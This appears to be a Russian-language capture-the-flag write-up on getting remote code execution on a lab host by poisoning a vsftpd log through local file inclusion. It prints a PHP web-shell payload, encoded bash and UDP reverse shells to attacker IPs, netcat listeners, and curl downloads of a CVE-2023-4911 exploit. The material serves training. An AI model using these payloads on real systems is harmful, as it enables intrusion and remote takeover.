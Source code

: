 ```yaml
---
attack: " log poisoning"
---
```

 
Получите RCE на узле [www.edu.stf](http://www.edu.stf) (10.124.1.235) посредством LFI.  
Для получения флага выполните скрипт /home/rceflag.

**Если вы пришли сюда так как не получись решить самостоятельно то предлагаю вам не смотреть решение  ,а воспользоваться моей подсказкой** 
read this : https://readmedium.com/rce-via-lfi-log-poisoning-the-death-potion-c0831cebc16d

Заметка вне категории чтобы читать Medium -> меняем домен на readmedium
 
#### solution
Если вы разобрались или скорее поняли как она работает у вас не будет проблем с тем как вызвать след файл /etc/passwd он из файловой системы Linux его часто используют для того чтобы понять есть уязвимость или нет. **Почему именно этот файл а не другой?** Потому что он расположен статично и можно точно знать что он есть или его нет, тип другие файлы могут иметь не стандартные названия а этот будет называться всегда так

из etc passwd можно увидеть след информацию :
`ftp:x:103:111:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin`
что это? наш любимый или не очень Ftp user 

Давайте также не забывать про Nmap 
```
 nmap 10.124.1.235                 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-20 12:15 EDT
Nmap scan report for www.edu.stf (10.124.1.235)
Host is up (0.0063s latency).
Not shown: 965 filtered tcp ports (no-response), 31 closed tcp ports (conn-refused)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
1720/tcp open  h323q931

```
Также вы можете перебрать файловую систему в поисках чего то интересного  через burp + intruder так я там нашёл файл логов FTP 
https://github.com/DragonJAR/Security-Wordlist/blob/main/LFI-WordList-Linux

#### attack 
шаг 0    rlwrap nc -lnvp 4444
Алгоритм атаки  подключаемся по фтп 1
2 вводим  в имя `<?php system($_GET["cmd"]);?>` далее любой  пароль 
и к этому моменту  нужно уже* иметь готовую команду в вебе (для запроса в url)

подробнее тут про эту атаку тут 
https://medium.com/@omarwhadidi9/10-ways-to-get-rce-from-lfi-f2bb696b67f6
https://shahjerry33.medium.com/rce-via-lfi-log-poisoning-the-death-potion-c0831cebc16d


```
└─$ ftp 10.124.1.235                                                                                              
Connected to 10.124.1.235.
220 (vsFTPd 3.0.3)
Name (10.124.1.235:kali): <?php system($_GET["cmd"]);?>
 

10.124.1.235/api/read.php?file=/var/log/vsftpd.log&cmd=bash -i >%26 %2Fdev%2Ftcp%2F10.127.246.200%2F4444 0>%261

Victim:
sh -i >& /dev/udp/10.0.0.1/4242 0>&1

Listener:
nc -u -lvp 4242
```
![[Pasted image 20240913145731.png]]

Примечание вижу как вы не годуете , да нужно было еще методом проб и ошибок понять что revershell нужно было закодировать 
revershell обычно берём отсюда https://www.revshells.com/ 
![[Pasted image 20240913145924.png]]
```
10.124.1.235/api/read.php?file=/var/log/vsftpd.log&cmd=bash -i >%26 %2Fdev%2Ftcp%2F10.127.IP.IP%2F4444 0>%261
```




 
```
curl -L -o libc.py https://raw.githubusercontent.com/leesh3288/CVE-2023-4911/main/libc.py
curl -L -o exp.c https://raw.githubusercontent.com/leesh3288/CVE-2023-4911/main/exp.c
```


```
curl -o libc.py http://10.127.244.55:4545/libc.py
curl -o exp.c http://10.127.244.55:4545/exp.c

```



#### attack 2
21/tcp open  ftp     vsftpd 3.0.3
